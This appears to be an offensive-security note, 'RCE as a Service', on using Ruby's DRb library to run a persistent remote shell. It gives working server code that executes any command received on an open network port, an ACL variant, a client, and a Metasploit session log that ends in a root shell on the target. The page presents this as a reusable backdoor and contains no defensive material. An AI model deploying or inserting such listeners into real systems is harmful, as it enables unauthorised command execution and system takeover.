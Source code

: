 # RCE as a Service
DRb allows Ruby programs to communicate with each other on the same machine or over a network. DRb uses remote method invocation (RMI) to pass commands and data between processes.

## RCE Service 
```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```
Note: It works on all OS platforms 

The `drb` lib supports ACL to prevent/allow particular IP addresses. ex.

```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

# Access List
acl = ACL.new(%w{deny all
                allow localhost
                allow 192.168.1.*})
DRb.install_acl(acl)
DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```


## Client 

```ruby
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id"
```

Or you can use a Metasploit module to get an elegant shell! 

```bash
msf > use exploit/linux/misc/drb_remote_codeexec 
msf exploit(drb_remote_codeexec) > set URI druby://192.168.0.13:8080
uri => druby://192.168.0.13:8080
msf exploit(drb_remote_codeexec) > exploit 

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UAR3ld0Uqnc03yNy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UAR3ld0Uqnc03yNy\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.0.18:4444 -> 192.168.0.13:57811) at 2015-12-24 01:11:30 +0300

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root)
```
As you can see, even you loose the session you can connect again and again; it's a service, remember? 


Note: For using a Metasploit module *only*, you don't need even the RShell class. You just need the following on the target side.

```ruby
#!/usr/bin/env ruby
require 'drb'
DRb.start_service("druby://0.0.0.0:8080", []).thread.join
```

I recommend to use the first code in case Metasploit is not available.

**References** 
- [Metasploit technical details](http://blog.recurity-labs.com/archives/2011/05/12/druby_for_penetration_testers/)
- [dRuby book](https://pragprog.com/book/sidruby/the-druby-book)